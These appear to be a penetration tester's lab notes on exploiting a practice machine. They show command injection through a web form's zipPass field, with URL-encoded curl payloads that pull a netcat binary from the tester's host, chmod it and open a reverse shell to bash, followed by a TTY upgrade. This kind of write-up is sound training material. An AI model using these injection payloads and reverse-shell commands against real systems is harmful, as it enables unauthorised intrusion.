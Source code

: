 #### http://bubo:80/personnelSubmission/
- looking here shows that there are fields to test with data.
![[Pasted image 20250103181655.png]]
- after entering `data`  two new fields pop up with `password protext with zip` and a password. 
- filled all fields with `test`
![[Pasted image 20250103181824.png]]
- Burp shows three fields to test `submissionData`, `passCheck`, & `zipPass`
![[Pasted image 20250103181935.png]]
sending to `REPEATER` to test for `LFI`

with `single URL encoding` was able to get a response 
```http
submissionData=test&passCheck=on&zipPass=test;curl+http%3a//192.168.45.233%3a8000/haha
```
![[Pasted image 20250103182816.png]]
proof it hit my `HTTP` server
![[Pasted image 20250103182901.png]]
going to pull over `netcat` and try to get a reverse shell
```http
;curl+http%3a//192.168.45.233%3a8000/netcat
```
`BURP` request
![[Pasted image 20250103183454.png]]
proof it got pulled over 
![[Pasted image 20250103183519.png]]
going to make `netcat` executable
```http
;chmod+%2bx+netcat
```
`BURP` request
- we are unable to see if it actually work until we test `netcat`
![[Pasted image 20250103183611.png]]
going to try to catch a reverse shell
```bash
netcat+192.168.45.233+1337+-e+/bin/bash
```
![[Pasted image 20250103184006.png]]
got a shell and `proof.txt`
![[Pasted image 20250103184041.png]]
now going to try to upgrade to a `tty`
```bash
script /dev/null -c /bin/bash 
CTRL + Z 
stty raw -echo; fg 
reset
Terminal type? screen
```
got a full `TTY`
![[Pasted image 20250103195159.png]]
going to try to get a reverse shell with `base64` encoding
```bash
netcat 192.168.45.233 1337 -e /bin/bash
```